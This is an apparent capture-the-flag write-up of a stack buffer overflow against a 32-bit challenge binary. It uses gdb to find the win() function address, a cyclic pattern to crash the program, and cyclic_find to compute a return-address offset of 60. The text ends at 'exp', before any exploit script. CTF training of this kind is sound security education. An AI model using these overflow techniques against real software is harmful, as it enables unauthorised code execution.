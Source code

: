 Use buff to make stackoverflow and cover RA as the addr of `system("/bin/cat /flag.txt")`->`win()`
Use gdb to debug sever, the ELF file.

```
>> info functions
0x08048586  win
```

```bash
./server

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff8e2be0 | 00 00 00 00 00 00 00 00 |
0xff8e2be8 | 00 00 00 00 00 00 00 00 |
0xff8e2bf0 | 00 00 00 00 00 00 00 00 |
0xff8e2bf8 | 00 00 00 00 00 00 00 00 |
0xff8e2c00 | ff ff ff ff ff ff ff ff |
0xff8e2c08 | ff ff ff ff ff ff ff ff |
0xff8e2c10 | c0 65 f1 f7 00 a0 04 08 |
0xff8e2c18 | 28 2c 8e ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff8e2be0 | 61 61 61 61 62 61 61 61 |
0xff8e2be8 | 63 61 61 61 64 61 61 61 |
0xff8e2bf0 | 65 61 61 61 66 61 61 61 |
0xff8e2bf8 | 67 61 61 61 68 61 61 61 |
0xff8e2c00 | 69 61 61 61 6a 61 61 61 |
0xff8e2c08 | 6b 61 61 61 6c 61 61 61 |
0xff8e2c10 | 6d 61 61 61 6e 61 61 61 |
0xff8e2c18 | 6f 61 61 61 70 61 61 61 |
Return address: 0x61616170

段错误 (核心已转储)
```

RA: `0x61616170`, which is invalid.

```python
>>> p32(0x61616170)
b'paaa'
>>> cyclic_find("paaa")
60
```

exp
